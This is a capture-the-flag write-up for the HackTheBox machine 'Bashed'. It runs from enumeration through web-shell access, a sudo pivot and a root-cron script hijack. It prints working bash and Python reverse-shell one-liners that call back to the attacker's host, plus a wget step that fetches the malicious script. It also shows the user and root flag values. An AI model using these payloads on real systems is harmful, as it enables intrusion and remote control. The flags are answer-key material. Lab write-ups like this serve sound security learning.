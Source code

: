# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-06 19:45 +08
Nmap scan report for 10.10.10.68
Host is up (0.0038s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/6%OT=80%CT=1%CU=40211%PV=Y%DS=2%DC=T%G=Y%TM=62249ED7
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

TRACEROUTE (using port 110/tcp)
HOP RTT     ADDRESS
1   3.00 ms 10.10.14.1
2   4.14 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.49 seconds

```

It seems like there’s a website…

Let’s check it out!

![website](website.png)

Checking around the website showed nothing interesting.

Let’s use `dirsearch`! OwO

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# dirsearch -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220545

Output File: /root/.dirsearch/reports/10.10.10.68/_22-03-06_19-48-55.txt

Error Log: /root/.dirsearch/logs/errors-22-03-06_19-48-55.log

Target: http://10.10.10.68/

[19:48:55] Starting: 
[19:48:55] 301 -  311B  - /images  ->  http://10.10.10.68/images/
[19:48:56] 301 -  312B  - /uploads  ->  http://10.10.10.68/uploads/
[19:48:56] 301 -  308B  - /php  ->  http://10.10.10.68/php/
[19:48:56] 301 -  308B  - /css  ->  http://10.10.10.68/css/
[19:48:57] 301 -  308B  - /dev  ->  http://10.10.10.68/dev/
[19:48:57] 301 -  307B  - /js  ->  http://10.10.10.68/js/
[19:49:01] 301 -  310B  - /fonts  ->  http://10.10.10.68/fonts/
[19:55:21] 403 -  299B  - /server-status

Task Completed

```

Looks like there is an interesting `/dev` path, let’s check it out!

![dev](dev.png)

Hmm… what is this `phpbash.php`?

![phpbash](phpbash.png)

Oh, It’s a in built bash terminal!

# Exploitation

Let’s open a netcat listener and try to execute a reverse shell :D

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.21/1234 <&1'
```

Hmm… this doesn’t seem to work.

Let’s try using a Python reverse shell instead~

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Yay! It worked!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# nc -nlvp 1234              
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.68] 58994
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

It seems like we can run `sudo` commands as `scriptmanager`!

Let’s test it out and execute another reverse shell (remember to open another netcat listener)!

```bash
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager whoami
sudo -u scriptmanager whoami
scriptmanager
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
<(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'    
- Netcat Listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# nc -nlvp 6969              
listening on [any] 6969 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.68] 35016
scriptmanager@bashed:/var/www/html/dev$ whoami
whoami
scriptmanager
```

# Privilege Escalation

Let’s find out what files do `scriptmanager` own.

```bash
scriptmanager@bashed:/var/www/html/dev$ find / -xdev -type f -user scriptmanager 2>/dev/null;
<ww/html/dev$ find / -xdev -type f -user scriptmanager 2>/dev/null;          
/scripts/test.py
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

>   find / - search entire filesystem
>
>   xdev - do not find from other filesystems
>
>   type - file
>
>   user - scriptmanager
>
>   2>/dev/null; - any errors will be discarded

It seems like there’s any interesting `test.py` script :o

```bash
scriptmanager@bashed:/var/www/html/dev$ cat /scripts/test.py
cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/var/www/html/dev$ ls -la /scripts/
ls -la /scripts/
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar  6 04:20 test.txt
```

The `test.txt` that is being generated from `test.py` is owned by root, which probably indicates that the cronjob is executed as root!

Now, we need to write a malicious `test.py`, host it on our server, and then use `scriptmanager` to download the file and override its original `test.py`! 

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# cat test.py         
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")   
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

- scriptmanager - 
scriptmanager@bashed:/var/www/html/dev$ cd /scripts/
cd /scripts/
scriptmanager@bashed:/scripts$ wget 10.10.14.21/test.py -O test.py
wget 10.10.14.21/test.py -O test.py
--2022-03-06 04:30:01--  http://10.10.14.21/test.py
Connecting to 10.10.14.21:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 212 [text/x-python]
Saving to: 'test.py'

test.py             100%[===================>]     212  --.-KB/s    in 0s      

2022-03-06 04:30:01 (1.04 MB/s) - 'test.py' saved [212/212]

- netcat listener - (wait for the cronjob to run)
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# nc -nlvp 9999       
listening on [any] 9999 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.68] 52654
root@bashed:/scripts# cd /home
cd /home
root@bashed:/home# ls
ls
arrexel  scriptmanager
root@bashed:/home# cd arrexel
cd arrexel
root@bashed:/home/arrexel# cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
root@bashed:/home/arrexel# cat /root/root.txt
cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```





